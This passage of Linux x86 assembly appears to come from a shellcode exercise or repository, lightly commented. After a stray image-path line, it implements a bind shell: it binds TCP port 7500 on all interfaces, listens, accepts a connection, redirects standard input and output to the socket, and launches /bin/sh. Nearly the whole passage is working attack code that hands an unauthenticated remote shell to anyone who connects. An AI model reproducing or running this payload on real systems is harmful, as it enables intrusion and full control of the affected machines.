 		;bind(): sys_socketcall(int call, unsigned long *args)
		;eax -> sys_socketcall
		;ebx -> SYS_BIND
		;ecx -> args(sockfd{esi}, {sa_family{2},sin_port{7500},sin_addr{0.0.0.0}}, socklen_t addrlen{16 bytes})
		mov BYTE al,0x66
		inc ebx			;SYS_BIND
		push edx
		push WORD 0x4C1D; por 7500
		push bx
		mov ecx,esp
		push BYTE 16
		push ecx
		push esi
		mov ecx,esp
		int 0x80

		;listen(): sys_socketcall(int call, unsigned long *args)
		;eax -> sys_socketcall
		;ebx -> SYS_LISTEN
		;ecx -> args(sockfd, backlog)
		mov BYTE al,0x66
		inc ebx
		inc ebx			;SYS_LISTEN
		push BYTE 1
		push esi
		mov ecx,esp
		int 0x80

		;accept: sys_socketcall(int call, unsigned long *args)
		;eax -> sys_socketcall
		;ebx -> SYS_ACCEPT
		;ecx -> args(sockfd, NULL, NULL)
		mov BYTE al,0x66
		inc ebx			;SYS_ACCEPT
		push edx
		push edx
		push esi
		mov ecx,esp
		int 0x80

		;dup2 sys_dup2(oldfd, newfd{0[stdin],1[stdout],2[stderr]})
		xchg ebx,eax
		push BYTE 2
		pop ecx
		lp:	mov BYTE al,0x3f
		int 0x80
		dec ecx
		jns lp			;SF=0 positive, SF=1 negative. JNS (jump-if-not-sign) will loop while SF=0. When SF is set we reach a negative value so the loop stops.		

		;execve /bin/sh
		mov BYTE al,11
		push edx
		push 0x68732f2f
		push 0x6e69622f
		mov ebx,esp
		push edx
		mov edx,esp
		push ebx
		mov ecx,esp
		int 0x80
